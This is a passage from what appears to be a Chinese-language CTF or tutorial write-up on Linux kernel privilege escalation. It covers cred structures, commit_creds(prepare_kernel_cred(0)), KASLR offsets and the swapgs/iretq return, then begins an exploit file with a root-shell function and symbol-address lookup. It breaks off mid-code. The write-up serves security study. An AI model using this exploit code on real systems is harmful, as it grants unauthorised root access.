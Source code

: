 >   内核会通过进程的 `task_struct` 结构体中的 `cred` 指针来索引 `cred` 结构体，然后根据 `cred` 的内容来判断一个进程拥有的权限，如果 `cred` 结构体成员中的 `uid-fsgid` 都为 0，那一般就会认为进程具有 `root` 权限。

一种常见的提权方式就是执行 `commit_creds(prepare_kernel_cred(0))`，方式会自动生成一个合法的 `cred`，并定位当前线程的 `task_struct` 的位置，然后修改它的 `cred` 为新的 `cred`。该方式比较适用于控制程序执行流后使用。

通过获取 `kaslr` 偏移地址，就可以得到上面两个内核函数和 `rop gadgets` 的地址，但是在内核态返回用户态的时候，还需要额外执行 `swapgs; iretq` 来恢复用户态的现场，即 `iretq` 后跟：

```c
iretq_ret;
(size_t)RET_ADDR;
user_cs;
user_rflags;
user_sp;
user_ss;
```

同时，程序最开始的地方也要保存用户态的现场：

```c
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
    );
    puts("[*]status has been saved.");
}
```

## 最终 exp.c

```c
// author: @eastXueLian
// usage : musl-gcc ./exp.c -static -masm=intel -o ./core/exp

#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#define lg(X) printf("\033[1;31;40m[*] %s --> 0x%lx \033[0m\n", (#X), (X))

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
    );
    puts("[*]status has been saved.");
}
void get_shell(void) {
    system("/bin/sh");
}

size_t commit_creds_addr, prepare_kernel_cred_addr, kaslr_offset;
void get_func_addrs() {
    FILE *fd = fopen("/tmp/kallsyms", "r");
    size_t cur_addr;
```